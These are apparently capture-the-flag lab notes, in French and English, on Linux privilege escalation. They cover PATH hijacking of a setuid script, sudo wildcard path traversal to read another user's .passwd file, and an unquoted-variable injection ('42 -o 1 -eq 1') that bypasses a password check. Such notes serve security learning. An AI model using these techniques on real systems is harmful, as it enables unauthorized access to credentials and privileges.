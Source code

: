 ### Utilisation du PATH

Avec script c u+s

Copy de cat comme ls dans /tmp ou /var/tmp: $ cp /bin/cat /tmp/ls (n'importe quelle commande dont on a besoin cat ou nano ou autre)

modif du PATH dans lequelle les commande vont être exécutée: $ PATH=/tmp

éxecution du script qui va donc utiliser le cat comme ls

### Les dangers de sudo

sudo permet d'exécuter des commandes en tant qu'un autre utilisateur

sudo -l permet de voir quelle commandes peuvent être lancée et par quel utilisateur

sudo -u $user $commande

dans le cas de cette exercice:

```bash 
$ sudo -l
User app-script-ch1 may run the following commands on challenge02:
    (app-script-ch1-cracked) /bin/cat /challenge/app-script/ch1/notes/*

$ sudo -u app-script-ch1-cracked /bin/cat /challenge/app-script/ch1/notes/*

$ sudo -u app-script-ch1-cracked cat /challenge/app-script/ch1/notes/../ch1cracked/.passwd
```

### Unquoted variables

Solution

```
./wrapper "42 -o 1 -eq 1" 
````

Explanation
This condition needs to be passed (line 18):
````
if test $PASS -eq ${1}; then
````

Note that `${1}` is unquoted!
Hence, it will be "split" before being passed to the `test` command.

So, we need:

Something that is an integer to make a valid comparison to $PASS;
A condition that is always true: `1 -eq 1`.
And the condition will be split to become:
````
$PASS -eq 42 -o 1 -eq 1
````

Sources
Split/Glob effect on unquoted variables: https://unix.stackexchange.com/questions/171346/security-implications-of-forgetting-to-quote-a-variable-in-bash-posix-shells#answer-171347;
OR operation for the test command: https://tldp.org/LDP/abs/html/comparison-ops.html#CCOMPARISON1 .

